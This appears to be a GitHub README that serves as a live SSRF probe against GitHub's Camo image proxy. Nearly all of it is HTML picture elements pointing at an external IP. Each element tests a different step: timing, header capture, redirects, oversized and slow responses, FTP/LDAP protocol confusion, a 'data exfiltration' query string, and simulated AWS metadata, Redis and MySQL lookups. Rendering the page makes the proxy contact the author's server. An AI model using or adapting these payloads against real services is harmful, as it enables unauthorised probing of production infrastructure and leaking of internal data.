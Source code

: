 # 🔍 SSRF Validation Tests

Testing GitHub Camo proxy SSRF vulnerability.

## Basic SSRF Confirmation
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-1-basic">
  <img src="hellp.jpg" alt="Basic Test">
</picture>

## Timing Attack Test  
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-2-timing?delay=10">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Timing Test">
</picture>

## Data Exfiltration Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-3-data?data=github-internal-secret">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Data Test">
</picture>

## Header Analysis Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-4-headers">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Header Test">
</picture>

## Redirect Following Test
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-5-redirect?step=1">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Redirect Test">
</picture>

## Large Response Test (50MB)
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-6-large?size=50">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Large Test">
</picture>

## Slow Response Test (30s)
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-7-slow?duration=30">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Slow Test">
</picture>

## Protocol Confusion Tests
<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-8-protocols?protocol=ftp">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="FTP Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/ssrf-test-8-protocols?protocol=ldap">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="LDAP Test">
</picture>

## Internal Service Simulation
<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=aws-metadata">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="AWS Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=redis-info">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="Redis Test">
</picture>

<picture>
  <source srcset="http://164.90.187.218:8080/simulate-internal?service=mysql-status">
  <img src="https://github.com/zebbern/github-secrets/blob/main/2.jpg" alt="MySQL Test">
</picture>
